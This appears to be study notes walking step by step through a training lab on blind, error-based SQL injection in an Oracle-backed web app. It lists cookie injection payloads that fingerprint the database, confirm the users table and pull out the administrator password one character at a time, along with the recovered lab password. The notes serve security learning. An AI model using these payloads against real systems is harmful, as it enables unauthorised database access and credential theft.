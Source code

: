 # Lab: Blind SQL injection with conditional errors

### step1

```sql
TrackingId=I30VlRES0twQbZnB'
```

->false-> 500 Internal Server Error

### step2

```sql
TrackingId=I30VlRES0twQbZnB''
```

-> true -> 200 OK

### step3

```sql
TrackingId=I30VlRES0twQbZnB'||(SELECT '')||'
```

-> false-> 500 Internal Server Error

### step4

This may be due to the database type - try specifying a predictable table name in the query:

```sql
TrackingId=I30VlRES0twQbZnB'||(SELECT '' FROM dual)||'
```

-> true -> 200 ok
As you no longer receive an error, this indicates that the target is probably using an _Oracle_
database, which requires all `SELECT` statements to explicitly specify a table name.

### step5

```sql
TrackingId=I30VlRES0twQbZnB'||(SELECT '' FROM not-a-real-table)||'
```

->false->500 Internal Server Error

### step6

in order to verify that the `users` table exists, send the following query:

```sql
TrackingId=I30VlRES0twQbZnB'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

Note that the `WHERE ROWNUM = 1` condition is important here to prevent the query from returning more than one row, which would break our concatenation.

-> true -> 200 ok
_note:sql command for case_

```sql
SELECT OrderID, Quantity,
CASE
    WHEN Quantity > 30 THEN "The quantity is greater than 30"
    WHEN Quantity = 30 THEN "The quantity is 30"
    ELSE "The quantity is under 30"
END
FROM OrderDetails;
```

syntax:

```sql
CASE
    WHEN _condition1_ THEN _result1_
    WHEN _condition2_ THEN _result2_
    WHEN _conditionN_ THEN _resultN_
    ELSE _result_
END;
```

### step7

You can also exploit this behavior to test conditions. First, submit the following query:

```sql
TrackingId=I30VlRES0twQbZnB'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

->false->500 Internal Server Error

### step8

change case

```sql
TrackingId=I30VlRES0twQbZnB'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

-> true -> 200 ok

### step9

```sql
TrackingId=I30VlRES0twQbZnB'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

->false->500 Internal Server Error

### step10

```sql
TrackingId=I30VlRES0twQbZnB'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

->false->500 Internal Server Error

### step11

```sql
TrackingId=I30VlRES0twQbZnB'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

```

->false->500 Internal Server Error

### step12

```sql
TrackingId=I30VlRES0twQbZnB'||(SELECT CASE WHEN LENGTH(password)>20 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

```

-> true -> 200 ok  
it means password length is 20

### step13

```sql
TrackingId=I30VlRES0twQbZnB'||(SELECT CASE WHEN LENGTH(password)=20 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

```

->false->500 Internal Server Error

### step14

```sql
TrackingId=I30VlRES0twQbZnB'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

-> true -> 200 ok

### step15

```sql
TrackingId=I30VlRES0twQbZnB'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

```
1  2  3  4  5  6  7  8  9  10  11 12   13   14  15  16  17  18  19  20

n  3  e  s  s  7  i  y  c   h   1   0   e   y   b   3  7   t   3    f

n3ess7iych10eyb37t3f
```

![screenshot](./images/payload_result.png)

first payload second payload and attack type similar to [[1_condtional_response|conditional response)
